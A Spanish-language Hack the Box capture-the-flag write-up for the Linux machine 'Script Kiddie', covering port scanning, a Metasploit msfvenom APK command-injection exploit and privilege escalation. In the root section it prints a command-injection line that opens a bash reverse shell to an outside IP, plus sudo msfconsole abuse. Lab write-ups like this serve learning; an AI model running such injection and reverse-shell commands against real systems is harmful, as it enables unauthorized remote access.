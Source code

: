 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-06-5 10:40:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, Linux, msfvenom, nmap, pivoting, msfconsole ]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/ScriptKiddie/InfoCard-ScriptKiddie.png
---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.

![masscan_01](/assets/img/Linux/ScriptKiddie/Infocard-scriptkiddie.png)

## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](/assets/img/Linux/ScriptKiddie/masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="/assets/img/Linux/ScriptKiddie/h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](/assets/img/Linux/ScriptKiddie/h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](/assets/img/Linux/ScriptKiddie/msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](/assets/img/Linux/ScriptKiddie/msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](/assets/img/Linux/ScriptKiddie/msf03.png)

![msf04](/assets/img/Linux/ScriptKiddie/msf04.png)



Ponemos netcat a la escucha y : 

![msf05](/assets/img/Linux/ScriptKiddie/msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](/assets/img/Linux/ScriptKiddie/kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](/assets/img/Linux/ScriptKiddie/kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](/assets/img/Linux/ScriptKiddie/pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](/assets/img/Linux/ScriptKiddie/pwn_01.png)

![pwn_02](/assets/img/Linux/ScriptKiddie/pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](/assets/img/Linux/ScriptKiddie/root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](/assets/img/Linux/ScriptKiddie/root_02.png)

:) 

![root_03](/assets/img/Linux/ScriptKiddie/root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](/assets/img/Linux/ScriptKiddie/gali.png)

